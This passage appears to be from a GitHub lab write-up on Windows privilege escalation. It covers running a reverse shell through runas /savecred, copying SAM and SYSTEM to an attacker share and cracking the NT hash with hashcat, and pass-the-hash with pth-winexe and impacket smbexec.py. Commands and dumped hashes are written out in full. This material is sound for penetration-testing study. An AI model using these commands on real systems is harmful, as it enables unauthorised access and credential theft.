     > ```ruby
     > C:\PrivEsc\savecred.bat script
     > ```
     > to refresh the saved credentials.
     
     > ## ``savecred.bat`` → A script on the lap that forces the system to store the credential (usually owned by the admin).
     > Objective: Make sure that the credential is registered so that we can exploit it.
     
          
     </details>
     
     
     ## 2. run payload using saved credential
     
     ```ruby
     runas /savecred /user:admin C:\PrivEsc\reverse.exe
     ```
     
     - **`runas`** : Tool to run programs as different user
     - **`/savecred`** : It means use the credential stored in the system instead of asking you to enter the password.
     - **`/user:admin`** : Specify that you want to run the program as a user named admin.
     - **`C:\PrivEsc\reverse.exe`** : This is your payload (reverse shell).
     
     
     > ---
     > ### 📌 _Goal → Run reverse.exe with admin privileges without entering the password yourself → take a shell with higher privileges._
     > ---
     
     
     ## 3. open listener on kali
     
     ```ruby
     nc -nvlp 4444
     ```
     
     
     
     <img width="1265" height="315" alt="image" src="https://github.com/user-attachments/assets/f1595237-ce9c-4b71-baa1-383a14ee2106" />
     
     



  </details>









- <details>
     <summary>Security Account Manager (SAM)</summary>

     > ``The idea of ​​exploitation``
     > Windows stores user password hashes in a file called ``SAM`` (Security Account Manager).
     > But the SAM is encrypted, and the key to decrypt it is stored in the ``SYSTEM`` file.
     
     
     > ---
     > ### 📌 _The idea → If you find a backup copy of these files (such as ``C:\Windows\Repair\``), you can copy them and break the passwords._
     > ---
     
     
     ## 1. Transfer SAM and SYSTEM files to Kali
     
     ```ruby
     copy C:\Windows\Repair\SAM \\10.8.47.102\kali\
     copy C:\Windows\Repair\SYSTEM \\10.8.47.102\kali\
     ```
     
     <img width="1247" height="371" alt="image" src="https://github.com/user-attachments/assets/9312c3bf-1ef6-413d-94ba-b0a3dc5dda61" />
     
     
     
     
     > ---
     > ### 📌 _Goal → We take the hashes files and bring them to us so that we can work on them at our convenience._
     > ---
     
     
     ## 2. Download ``creddump7`` Tool
     
     
     ```ruby
     git clone https://github.com/Tib3rius/creddump7
     
     sudo mv creddump7 /opt/
     sudo ln -s /opt/creddump7/pwdump.py /usr/local/bin/pwdump
     ```
     
     > Install the encryption library
     
     ```python
     pip3 install pycrypto
     ```
     
     - **`pip3`** : Python3 package manager.
     - **`install pycrypto`** : We install the `PyCrypto library`so that the tool can extract hashes form files.
     
     
     ## 3. Extracting hashes from files
     
     
     ```ruby
     pwdump SYSTEM SAM
     ```
     
     <img width="883" height="224" alt="image" src="https://github.com/user-attachments/assets/d6c3d6c5-1652-4ed7-b50a-a351130eee05" />
     
     ```ruby
     Administrator:500:aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889:::
     Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
     DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
     WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:6ebaa6d5e6e601996eefe4b6048834c2:::
     user:1000:aad3b435b51404eeaad3b435b51404ee:91ef1073f6ae95f5ea6ace91c09a963a:::
     admin:1001:aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da:::
     ```
     
     
     >  ```
     >  Administrator:500:aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889:::
     >  ```
     
     - **`Administrator`** : username
     - **`500`** : The user's RID (Relative Identifier). 500 usually remains the primary Administrator.
     - **`aad3b435b51404eeaad3b435b51404ee`** : LM hash (if not used, this is the default placeholder).
     - **`fc525c9683e8fe067095ba2ddc971889`** : NT hash (which we can use to crack the password or pass-the-hash).
     - **`:::`** : Additional fields are not important to us now.
     
     
     
     ## 4. Crack the hash using Hashcat
     
     
     ```ruby
     hashcat -m 1000 -a 0 fc525c9683e8fe067095ba2ddc971889 /usr/share/wordlists/rockyou.txt
     ```
     
     - **`hashcat`** : A powerful tool for cracking passwords.
     - **`-m 1000`** : It means the hash is of type NTLM.
     
     <img width="672" height="166" alt="image" src="https://github.com/user-attachments/assets/05e7ca96-024b-4d9d-91c0-3010dcc1bd54" />
     
     
     
     
     ## 5. Exploiting the password after it is broken
     
     
     ```ruby
     winexe -U 'admin%<password>' //10.10.10.10 cmd.exe
     
     Or
     
     rdesktop -u admin -p <password> 10.10.10.10
     ```
     
     
     
     <img width="681" height="378" alt="image" src="https://github.com/user-attachments/assets/b422fc9e-d7f2-4542-bc24-59d137851956" />
     
     
     


  </details>









- <details>
     <summary> Passing the Hash</summary>
     
     > ---
     > ### 📌 _The idea → Usually in attacks on Windows, when you have a hash instead of cracking the password, you can use a technique called Pass-the-Hash (PTH).
     > Idea: The hash is used directly for authentication instead of the actual password.
     
     > Why is this useful?
     
     > - Save time (you don't need to break the password).
     
     > - Some systems may prevent brute-force, but not the use of hash for authentication._
     > ---
     
     
     ```ruby
     pth-winexe -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //10.10.148.63 cmd.exe
     ```
     
     or 
     
     ```ruby
     python3 /usr/share/doc/python3-impacket/examples/smbexec.py -hashes aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da admin@10.10.148.63
     ```
     
     
     <img width="1090" height="261" alt="image" src="https://github.com/user-attachments/assets/d017160b-c081-4946-a00b-5ac68d94c122" />
     
     
     <img width="1099" height="245" alt="image" src="https://github.com/user-attachments/assets/004a30ec-a449-4e55-b8a4-b7bb52ccbe7d" />
     
     
     > `smbexec.py` uses the creation service on Windows to run the shell.
     
     > Any service that runs on Windows usually runs under `SYSTEM` privileges.
     
     > This means that even if the user you specified is admin, the `shell` that will open will be `SYSTEM` because it is the service on Windows that is running.
     
     > This is a great advantage because it gives you the highest powers over the system.
     
     
     
     | tool                  | Privileges         | method                                             |
     | --------------------- | ------------------ | -------------------------------------------------- |
     | `impacket smbexec.py` | SYSTEM             | You create a service and run a shell inside it     |
     | `pth-winexe`          | Admin              | Regular logon and shell execution in user session  |
     
     
     


  </details>








     
</details>






















<details>
  <summary></summary>
</details>

<details>
  <summary></summary>
</details>

<details>
  <summary></summary>
</details>

<details>
  <summary></summary>
</details>

<details>
  <summary></summary>
</details>





